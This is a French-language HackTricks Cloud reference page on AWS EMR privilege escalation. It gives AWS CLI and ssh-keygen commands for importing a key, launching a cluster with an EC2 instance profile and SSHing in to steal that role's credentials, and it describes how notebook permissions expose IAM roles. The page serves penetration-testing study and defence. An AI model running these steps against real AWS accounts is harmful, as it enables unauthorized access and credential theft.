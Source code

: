 # AWS - EMR Privesc

<details>

<summary><strong>Soutenez HackTricks et obtenez des avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## EMR

Plus d'**informations sur EMR** dans :

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Un attaquant disposant de ces autorisations peut **exécuter un nouveau cluster EMR en attachant des rôles EC2** et essayer de voler ses informations d'identification.\
Notez que pour ce faire, vous devrez **connaître une clé privée ssh importée dans le compte** ou en importer une, et être capable d'**ouvrir le port 22 dans le nœud maître** (vous pourriez être en mesure de le faire avec les attributs `EmrManagedMasterSecurityGroup` et/ou `ServiceAccessSecurityGroup` à l'intérieur de `--ec2-attributes`).

```bash
# Importer la clé ssh EC2 (vous aurez besoin de permissions supplémentaires pour cela)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
    --key-name "privesc" \
    --public-key-material file:///tmp/pub.key


aws emr create-cluster \
    --release-label emr-5.15.0 \
    --instance-type m4.large \
    --instance-count 1 \
    --service-role EMR_DefaultRole \
    --ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Attendre 1 minute et se connecter via ssh à une instance EC2 du cluster)
aws emr describe-cluster --cluster-id <id>
# Dans MasterPublicDnsName, vous pouvez trouver le DNS pour vous connecter à l'instance maître
## Vous pouvez également obtenir ces informations en listant les instances EC2
```

Notez comment un **rôle EMR** est spécifié dans `--service-role` et un **rôle ec2** est spécifié dans `--ec2-attributes` à l'intérieur de `InstanceProfile`. Cependant, cette technique ne permet de voler que les informations d'identification du rôle EC2 (car vous vous connecterez via ssh) mais pas le rôle IAM EMR.

**Impact potentiel :** Privesc vers le rôle de service EC2 spécifié.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Avec ces autorisations, un attaquant peut aller sur la **console AWS**, créer un Notebook et y accéder pour voler le rôle IAM.

{% hint style="danger" %}
Même si vous attachez un rôle IAM à l'instance de notebook, dans mes tests, j'ai remarqué que j'étais capable de voler des informations d'identification gérées par AWS et non des informations d'identification liées au rôle IAM lié.
{% endhint %}

**Impact potentiel :** Privesc vers le rôle géré par AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Avec cette autorisation, un attaquant pourra accéder au **Jupyter Notebook et voler le rôle IAM** qui lui est associé.\
L'URL du notebook est `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Même si vous attachez un rôle IAM à l'instance de notebook, dans mes tests, j'ai remarqué que j'étais capable de voler des informations d'identification gérées par AWS et non des informations d'identification liées au rôle IAM lié.
{% endhint %}

**Impact potentiel :** Privesc vers le rôle géré par AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

<details>

<summary><strong>Soutenez HackTricks et obtenez des avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>